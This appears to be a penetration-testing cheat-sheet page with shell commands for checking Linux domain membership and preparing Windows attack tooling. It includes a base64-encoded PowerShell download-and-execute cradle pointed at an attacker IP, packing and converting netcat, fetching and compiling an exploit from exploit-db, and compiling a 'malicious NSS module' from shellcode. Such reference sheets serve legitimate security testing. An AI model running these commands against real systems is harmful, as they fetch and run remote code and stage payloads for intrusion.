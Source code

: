 {% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Domain

```bash
realm list # Checking domain access setup
id <user>@<domain> #  Checking what groups a user belongs to
ps -ef | grep -i "winbind\|sssd" # Check If Linux Machine is Domain Joine


```
## Bash for Windows

```bash
#Base64 for Windows
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0
 
#Exe compression
upx -9 nc.exe

#Exe2bat
wine exe2bat.exe nc.exe nc.txt

#Compile Windows python exploit to exe
pip install pyinstaller
wget -O exploit.py http://www.exploit-db.com/download/31853  
python pyinstaller.py --onefile exploit.py

#Compile for windows
#sudo apt-get install gcc-mingw-w64-i686
i686-mingw32msvc-gcc -o executable useradd.c

# Compile malicious NSS module (shared object)
gcc -O3 -static -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
# -O3        : Max optimization
# -static    : Include all libs inside the file (no external .so needed)
# -shared    : Build a shared object (.so file)
# -nostdlib  : Don’t link standard C libraries (libc, etc.)
# -o         : Output file
# shellcode.c: Source file with payload or custom _start

# Compile the main exploit binary
gcc -O3 -static -o exploit exploit.c
# -O3        : Max optimization
# -static    : Statically link everything (no external dependencies)
# -o         : Output file
# exploit.c  : Source file for exploit logic
# -m32       : Compile for 32-bit
# -m64       : Compile for 64-bit
```
